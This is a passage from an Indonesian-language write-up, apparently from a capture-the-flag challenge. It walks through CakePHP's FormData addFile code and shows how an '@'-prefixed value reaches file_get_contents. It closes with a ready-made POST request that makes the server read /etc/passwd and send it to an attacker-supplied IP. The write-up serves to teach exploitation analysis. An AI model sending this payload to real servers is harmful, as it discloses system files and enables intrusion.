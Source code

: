 ```php
     * @param mixed $value Either a string filename, or a filehandle.
     * @return \Cake\Http\Client\FormDataPart
     */
    public function addFile($name, $value)
    {
        $this->_hasFile = true;

        $filename = false;
        $contentType = 'application/octet-stream';
        if (is_resource($value)) {
            $content = stream_get_contents($value);
            if (stream_is_local($value)) {
                $finfo = new finfo(FILEINFO_MIME);
                $metadata = stream_get_meta_data($value);
                $contentType = $finfo->file($metadata['uri']);
                $filename = basename($metadata['uri']);
            }
        } else {
            $finfo = new finfo(FILEINFO_MIME);
            $value = substr($value, 1);
            $filename = basename($value);
            $content = file_get_contents($value);
            $contentType = $finfo->file($value);
        }
        $part = $this->newPart($name, $content);
        $part->type($contentType);
        if ($filename) {
            $part->filename($filename);
        }
        $this->add($part);

        return $part;
    }
 ```

Eksekusi pada fungsi `addMany(array $data)` akan mengiterasi array yang dimasukkan untuk diproses menggunakan `add($name, $value)`. Pada fungsi `add($name, $value)`, apabila `$value` adalah string yang diawali `@`, maka `$this->addFile($name, $value);` akan dipanggil.

Pada `addFile($name, $value)`, karena `$value` adalah string, maka `$value = substr($value, 1);` dan `$content = file_get_contents($value);` akan tereksekusi. Dengan ini, kita dapat mengontrol parameter dari `file_get_contents`!

#### Local File Disclosure

Untuk mengujinya, kita dapat mencoba Local File Disclosure. Data request yang dibuat akan dikirim langsung menuju URL dengan menggunakan `fopen` pada `Cake\Http\Client\Adapter\Stream`.

Berikut adalah request untuk mengirimkan `/etc/passwd` ke IP kita.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@/etc/passwd
```
